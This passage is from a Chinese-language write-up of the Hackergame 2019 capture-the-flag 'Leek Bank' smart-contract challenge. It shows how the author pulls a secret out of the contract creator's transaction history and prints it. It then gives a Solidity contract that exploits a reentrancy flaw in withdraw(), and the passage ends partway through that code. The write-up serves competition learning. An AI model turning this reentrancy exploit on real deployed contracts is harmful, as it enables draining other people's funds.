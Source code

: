 粗心的作者随手删掉了他的payload，并且由于他很懒，并没有重写（（

（欢迎大家去看[官方题解](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/PowerShell_%E8%BF%B7%E5%AE%AB/README.md)，写的比我的好太多了

## 韭菜银行

### flag1
用etherscan可以很容易看到这个合约的源码
```
function get_flag_1(uint128 guess) public view returns(string) {
    require(guess == secret);

    bytes memory h = new bytes(32);
    for (uint i = 0; i < 32; i++) {
        uint b = (secret >> (4 * i)) & 0xF;
        if (b < 10) {
            h[31 - i] = byte(b + 48);
        } else {
            h[31 - i] = byte(b + 87);
        }
    }
    return string(abi.encodePacked("flag{", h, "}"));
}
```
从这个函数中看出，我们应该去找`secret`，向上翻到`constructor`函数，我们发现`secret`由合约创建者初始化，

去找ContractCreator，然后翻交♂易记录，拿到`secret`为000000000000000000000000000000000175bddc0da1bd47369c47861f48c8ac

然后扔给这个函数就好了

### flag2
```
function withdraw(uint amount) public {
    require(balance[msg.sender] >= amount);
    msg.sender.call.value(amount)();
    balance[msg.sender] -= amount;
}
```
在这里的第三行我们能发现一个重入漏洞，写个合约去调用就好了
```
pragma solidity ^0.4.26;

interface JCBank {
    function deposit()external payable ;

    function withdraw(uint amount)external ;

    function get_flag_2(uint user_id) external;
}

contract abc {
    JCBank constant private target = JCBank(0xE575c9abD35Fa94F1949f7d559056bB66FddEB51);
    bool private flag = false;
    function() external payable{
        if (!flag)
        {
            flag = true;
            target.withdraw(1 wei);
        }
    }
    function abc() public payable{
        target.deposit.value(1 wei)();
        target.withdraw(1 wei);
```